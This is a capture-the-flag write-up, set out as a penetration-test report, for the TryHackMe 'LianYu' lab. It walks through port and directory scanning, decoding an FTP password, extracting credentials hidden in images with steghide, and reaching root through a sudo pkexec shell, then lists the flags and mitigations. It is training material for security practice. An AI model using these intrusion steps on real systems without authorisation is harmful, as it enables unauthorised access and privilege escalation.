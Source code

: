 # Vulnerability Assessment and Penetration Testing (VAPT) Report – LianYu

**Prepared by:** Nishanth Antony  
**Date:** August 28, 2025  
**Difficulty:** Easy    
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify open ports and accessible services on the target.  
**Commands Used:**  
- `nmap -p- --min-rate=1000 <target_ip> -sV -T4 -v`  
- `gobuster dir -u http://<target_ip>:38980 -w /usr/share/wordlists/dirb/common.txt`  

**Findings:**  
- Port 80 open, hosting a web service.  
- Gobuster revealed `/island` directory.  
- Further gobuster on `/island` uncovered `/2100` and `/green_arrow.ticket`.  
- `/green_arrow.ticket` contained a token: `RTy8yhBQdscX`, base58 decoded to an FTP password.  

---

## 2. Exploitation Process  
**Step 1 – FTP Access**  
- Logged into FTP with username `vigilante` and decoded password:  
  `ftp vigilante@<target_ip>`  
- Downloaded files: `Leave_me_alone.png`, `Queen's_Gambit.png`, `aa.jpg`.  
- Commands:  
  ```bash
  ftp> ls
  229 Entering Extended Passive Mode (|||25926|).
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
  -rw-r--r--    1 0        0          549924 May 05  2020 Queens_Gambit.png
  -rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
  226 Directory send OK.
  ftp> get aa.jpg
  local: aa.jpg remote: aa.jpg
  229 Entering Extended Passive Mode (|||5437|).
  150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
  100% |****************************************************************************************|   186 KiB   55.60 KiB/s    00:00 ETA
  226 Transfer complete.
  191026 bytes received in 00:03 (50.79 KiB/s)
  ftp> exit
  221 Goodbye.
  ```
- Outcome: Files downloaded successfully.  

**Step 2 – Steganography Analysis**  
- Modified `Leave_me_alone.png` magic header to make it viewable, revealing a password.  
- Extracted hidden data from `aa.jpg` using steghide:  
  `steghide extract -sf aa.jpg`  
- Entered password from `Leave_me_alone.png` to retrieve `ss.zip`.  
- Extracted `ss.zip`, obtaining a password for SSH access.  
- Outcome: Obtained SSH password.  

**Step 3 – SSH Access as Slade**  
- Logged in via SSH:  
  `ssh slade@<target_ip>`  
- Retrieved user flag:  
  ```bash
  slade@LianYu:~$ ls
  user.txt
  slade@LianYu:~$ cat user.txt
  THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0NT}
  --Felicity Smoak
  ```
- Outcome: User flag retrieved.  

**Step 4 – Privilege Escalation**  
- Checked sudo permissions:  
  `sudo -l`  
- Found slade could run `/usr/bin/pkexec` as root with password.  
- Escalated to root:  
  `sudo pkexec /bin/bash`  
- Retrieved root flag:  
  ```bash
  root@LianYu:~# ls
  root.txt
  root@LianYu:~# cat root.txt
  Mission accomplished
  You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.
  THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_ILL_BE_D34D}
  --DEATHSTROKE
  ```
- Outcome: Root flag retrieved.  

---

## 3. Proof of Concept (PoC)  
- **FTP Download:**  
  `ftp vigilante@<target_ip>` with decoded password, `get aa.jpg`.  
- **Steganography Extraction:**  
  `steghide extract -sf aa.jpg` with password from `Leave_me_alone.png`, retrieved `ss.zip`.  
- **Privilege Escalation:**  
  `sudo pkexec /bin/bash` after authenticating with SSH password.  

---

## 4. Privilege Escalation  
- Exploited sudo privilege allowing `/usr/bin/pkexec` execution as root.  
- Used password-based authentication to gain root shell.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Restrict access to sensitive directories (e.g., `/island`).  
- **Authentication Security:**  
  - Use strong, unique passwords and multi-factor authentication for FTP and SSH.  
- **File Security:**  
  - Avoid storing sensitive data in images or unencrypted files on FTP.  
- **Sudo Configuration:**  
  - Limit sudo commands to specific, necessary actions; avoid password-based root access via pkexec.  
- **Patch Management:**  
  - Update vsftpd and other services to latest versions.  
  - Monitor logs for unauthorized access attempts.  

---

## 6. Lessons Learned  
- **Steganography Use:** Hidden data in images can conceal critical credentials.  
- **Weak Credentials:** Easily decoded tokens and passwords simplify initial access.  
- **Sudo Misconfiguration:** Overly permissive sudo rules enable privilege escalation.  

---

## 7. Skills Practiced  
- Network scanning (nmap)  
- Web directory enumeration (gobuster)  
- FTP file retrieval  
- Steganography analysis (steghide)  
- SSH access and privilege escalation  
- Secure reporting and mitigation strategies  
